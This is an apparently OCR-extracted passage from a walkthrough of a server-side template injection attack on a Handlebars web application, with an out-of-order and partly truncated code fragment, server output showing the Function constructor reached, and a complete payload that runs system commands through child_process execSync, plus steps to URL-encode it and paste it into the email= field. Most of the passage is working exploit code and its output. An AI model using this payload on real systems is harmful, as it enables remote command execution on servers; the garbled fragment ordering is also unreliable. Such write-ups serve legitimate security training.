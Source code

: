 ```
```

After URL encoding and sending the payload, we get the following response from the server:

The require object has been called successfully and the child_process module loaded. Let's now

attempt to run system commands.

We will need to URL encode the above payload once again.

```
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
```
We will contact you at: e
2
[object Object]
function Function() { [native code] }
2
[object Object]
[object Object]
```
```
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return
process.mainModule.require('child_process').execSync('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

Copy the payload in the bottom pane and paste it into the email= field once more, replacing the previous.

